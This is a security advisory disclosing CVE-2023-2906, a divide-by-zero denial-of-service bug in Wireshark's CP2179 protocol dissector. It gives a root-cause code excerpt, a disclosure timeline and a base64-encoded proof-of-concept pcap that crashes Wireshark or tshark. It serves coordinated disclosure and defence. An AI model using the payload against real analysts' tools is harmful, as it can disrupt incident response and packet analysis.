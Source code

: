 ```yaml
---
title: CVE-2023-2906
aliases: ["/cves/CVE-2023-2906.html"]
---
```


# CVE-2023-2906: Wireshark CP2179 Parsing Divide By Zero DoS

[AHA!] has discovered a deinal-of-service issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Thursday, August 24, 2023. [CVE-2023-2906] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length provided by an attacker-crafted CP2179 packet, Wireshark versions 2.0.0 through 4.0.7 is susceptible to a divide by zero allowing for a denial of service attack. [CVE-2023-2906] appears to be an instance of [CWE-369]. Note that, according to the [patch notes](https://gitlab.com/wireshark/wireshark/-/issues/19229), this effect can only be achieved when a user triggers the vulnerable code patch with the "Decode As..." functionality of Wireshark (or the `-d` option for tshark), so this vulnerability is unlikely to be triggerable in an automated way.

# Technical Details

As can be seen in the below code from the `dissect_response_frame` function which handles parsing the different types of response frames as part of the SCADA protocol, [PG&E 2179 Protocol](https://library.e.abb.com/public/9cc84999c2239e1fc125795d003d05f8/RER620_PGE2179prot_306957_ENa.pdf).

When parsing a `TIMETAG_INFO_RESPONSE` message, a call is made to the Wireshark function `tvb_get_guint8()` (on line 723) which retrieves an 8 bit value from the pcap file. If a 0 value is provided within the `TIMETAG_INFO_RESPONSE` message for the value, a divide by zero error occurs (on line 724).

The relevant code snippet from `epan/dissectors/packet-cp2179.c` is:
```
 718                 case TIMETAG_INFO_RESPONSE:
 719                 {
 720                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_moredata, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 721                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_numsets, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 722 
 723                     num_records = tvb_get_guint8(tvb, offset) & 0x7F;
 724                     recordsize = (numberofcharacters-1) / num_records;
 725                     num_values = (recordsize-6) / 2;      /* Determine how many 16-bit analog values are present in each event record */
 726 
 727                     offset += 1;
```

<br/>

# Payload

A base64-encoded blob containing the pcap needed to trigger the vulnerability is provided below:

```
1MOyoQIABAAAAAAAAAAAAP9/AAD6AAAAAAAAAAAAAAAMAAAADAAAAAMAAAADAAAAAAAAAAAAAAAA
AAAAFAAAABQAAAABAAAAAQAAAAEAAAD5/wAAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAMA
AAAAAAAAAAAAAAwAAAAMAAAAAwAAAAMAAAAAAAAAAAAAAAAAAAAVAAAAFQAAAAMAAAADAAAAAgAA
APn/BACAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAQAAAA=
```

<br/>

# Attacker Value

By providing this poisoned set of packets, an attacker could crash the application (Wireshark, tshark, or possibly a custom application utilizing libwireshark) preventing further analysis. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. This leads to situations where a specially crafted packet could be used to prevent best incident response practices from taking place.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-23 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-07-08 (Sat): PoC validated and this disclosure drafted.
* 2023-07-17 (Mon): Disclosed to the vendor via email at security@wireshark.org (per the vendor [website](https://www.wireshark.org/security/)).
* 2023-07-23 (Sun): Vendor acknowledged the vulnerability in [issue 19229](https://gitlab.com/wireshark/wireshark/-/issues/19229).
* 2023-08-23 (Wed): Vendor released fixed version [4.0.8](https://www.wireshark.org/docs/relnotes/wireshark-4.0.8.html).
* 2023-08-24 (Thu): Public disclosure of [CVE-2023-2906].

<br/>

----

[CVE-2023-2906]: https://takeonme.org/cves/CVE-2023-2906.html
[CWE-369]: https://cwe.mitre.org/data/definitions/369.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
